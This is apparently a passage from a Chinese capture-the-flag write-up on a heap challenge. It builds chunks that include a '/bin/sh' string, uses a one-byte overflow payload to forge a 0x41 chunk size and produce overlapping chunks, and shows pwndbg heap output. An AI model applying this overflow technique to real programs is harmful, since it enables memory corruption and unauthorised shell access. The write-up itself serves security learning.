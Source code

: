 对于这道题

我们先构造3个chunk

```
add(0x18,'ni')#0
add(0x18,'wo')#1
add(0x18,'/bin/sh\x00')#2
```

0 1构造堆重叠

因为我们的chunk绑定结构是这样的

我们溢出的那个字节实际上修改的是数组管理chunk的chunk_size

```
---------------
|数组管理chunk |      
|             |
|-------------|
---------------
| 内容chunk    |
|              |
|--------------|
```

我们这样构造fake chunk的payload

```python
payload='\x00'*24+'\x41'
edit(0,payload)
```

为什么是41？ 因为我们输入56的时候实际生成他的chunk_size记录的是0x41，我们为了方便利用，能在后续利用将bin中区块完整申请回来就构造一样的chunk方便布局



接下来我们去康康吧，里面怎么样了

显然已经生成了一个0x41的chunk啦

```c
pwndbg> heap
Allocated chunk | PREV_INUSE
Addr: 0x20ed000
Size: 0x251

Allocated chunk | PREV_INUSE
Addr: 0x20ed250
Size: 0x21

Allocated chunk | PREV_INUSE
Addr: 0x20ed270
Size: 0x21

Allocated chunk | PREV_INUSE
Addr: 0x20ed290
Size: 0x41

Allocated chunk | PREV_INUSE
Addr: 0x20ed2d0
Size: 0x21

Allocated chunk | PREV_INUSE
Addr: 0x20ed2f0
Size: 0x21

Top chunk | PREV_INUSE
Addr: 0x20ed310
Size: 0x20cf1
```